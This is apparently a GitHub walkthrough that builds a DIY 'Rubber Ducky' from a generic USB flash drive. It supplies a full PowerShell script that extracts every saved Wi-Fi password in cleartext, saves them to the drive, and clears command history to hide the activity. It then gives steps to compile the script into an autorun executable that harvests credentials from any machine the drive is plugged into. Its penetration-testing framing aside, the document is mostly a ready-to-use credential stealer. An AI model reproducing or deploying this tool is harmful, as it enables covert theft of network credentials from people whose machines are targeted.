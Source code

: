 # DIY Rubber Ducky: Generic USB Flash Drive

## Background:

The USB Rubber Ducky is a versatile penetration testing tool disguised as a standard USB flash drive but operates as a keystroke injection device. Once plugged into a target system, it simulates a human typing at superhuman speeds, executing pre-written scripts to deliver payloads, run commands, or modify system settings without requiring special permissions. Because it acts as a USB keyboard, most systems recognize it instantly, allowing it to bypass many traditional security measures. It is widely used by ethical hackers for tasks such as gathering system information, exploiting vulnerabilities, and demonstrating potential security weaknesses in physical access defenses. The Rubber Ducky’s ease of use and effectiveness make it popular in both offensive security testing and educational settings. This walkthrough discusses making a simple one with a generic USB flash drive.

### Requirement:

1 USB Flash Drive (any size)

## Setup

1. Format USB flash drive. Name it “FSOCIETY”
2. Download and install “SamLogic USB AutoRun Creator” from the link below.

[](https://en.softonic.com/download/usb-autorun-creator/windows/post-download)

1. Copy and paste the code below into a .txt file and save it as FSOCIETY.ps1 and save it to your desktop.

```go
# Define the volume label you're looking for
$targetLabel = "FSOCIETY"

# Find the drive letter of the USB drive with the specified label
$volume = Get-Volume | Where-Object { $_.FileSystemLabel -eq $targetLabel }

if ($volume) {
    $driveLetter = $volume.DriveLetter + ":\"
    $usbPath = "$driveLetter$env:username.txt"
    $baseDestinationDir = $driveLetter
    Write-Output "Drive letter found: $driveLetter"
} else {
    Write-Error "Drive with label '$targetLabel' not found."
    exit
}

# Initialize an array to store all Wi-Fi profiles and their passwords
$wifiData = @()

# Get all Wi-Fi profiles
$profiles = netsh wlan show profile | Select-String '(?<=All User Profile\s+:\s).+'

foreach ($profile in $profiles) {
    $wlan = $profile.Matches.Value.Trim()

    # Get the password for the current Wi-Fi profile
    $passw = netsh wlan show profile $wlan key=clear | Select-String '(?<=Key Content\s+:\s).+'
    $password = if ($passw) { $passw.Matches.Value.Trim() } else { "No Password Found" }

    # Create a custom object with the profile and password information
    $wifiData += [PSCustomObject]@{
        Username = $env:username
        Profile  = $wlan
        Password = $password
    }
}

# Convert the array of Wi-Fi data to JSON
$jsonBody = $wifiData | ConvertTo-Json -Depth 3

# Save the JSON data to a file on the USB drive
$jsonBody | Out-File -FilePath $usbPath -Encoding UTF8

# Clear the PowerShell command history
Clear-History

exit
```

---

This PowerShell script is designed to perform the following actions:

1. **Identify a USB Drive by Volume Label**:
    - The script looks for a USB drive with the volume label “FSOCIETY.”
    - If it finds a drive with this label, it identifies the drive letter (e.g., `E:\`) and stores it in the `$driveLetter` variable.
    - It then constructs a path to save a file on that USB drive (`$usbPath`), where `username.txt` is the filename that includes the current username.
2. **Extract Wi-Fi Profile and Password Information**:
    - It initializes an array (`$wifiData`) to hold Wi-Fi profile data.
    - Using the `netsh wlan show profile` command, it retrieves all saved Wi-Fi profile names on the device and stores them in `$profiles`.
    - For each Wi-Fi profile:
        - It extracts the Wi-Fi profile name.
        - It attempts to retrieve the Wi-Fi password by using the `netsh wlan show profile [profile name] key=clear` command. If the profile has a password, it extracts it; if no password exists, it sets it as “No Password Found.”
        - It then creates a custom object containing the username, Wi-Fi profile name, and password and adds this object to `$wifiData`.
3. **Convert Wi-Fi Data to JSON Format**:
    - The script converts the `$wifiData` array to JSON format using `ConvertTo-Json`, which allows for structured data storage.
4. **Save JSON Data to the USB Drive**:
    - It writes the JSON-formatted Wi-Fi data to a file (`username.txt`) located on the specified USB drive.
5. **Clear Command History and Exit**:
    - Finally, the script clears the PowerShell command history with `Clear-History` to remove any trace of the commands used.
    - The script then exits.

Summary of What This Script Does:

- It finds a specific USB drive by label, gathers all saved Wi-Fi profiles and their passwords on the machine, stores this data in JSON format, and saves it as a file on the USB drive. The command history is cleared afterward to hide traces of the activity.

---

1. Install the PowerShell module “ps2exe” this converts .ps1 files to .exe files.

```go
Install-Module ps2exe
```

![image.png](Screenshots/image11.webp)

1. Navigate to your Desktop and convert FSOCIETY.ps1 to FSOCIETY.exe with the following command.

```go
 Invoke-PS2EXE FSOCIETY.ps1 FSOCIETY.exe
```

1. Open Sam Logic USB Autorun Creator and select fsociety.exe as the program to run and select the appropriate drive letter for your newly formatted USB flash drive and select create.

![image.png](Screenshots/image12.webp)

1. When completed disconnect the USB drive. The USB drive will now automatically collect all WiFi passwords stored on the system and write them to a .txt file every time the USB is plugged into a system.
2. Reconnect the USB. After a few seconds open the flash drive. There should be a .txt file named after the current user. This file includes the WiFi network passwords.

![image.png](Screenshots/image13.webp)

We just created our own Rubber Ducky (Bad USB). The commercial Rubber Ducky (which costs about $70) has additional features, but this is a cost effective alternative.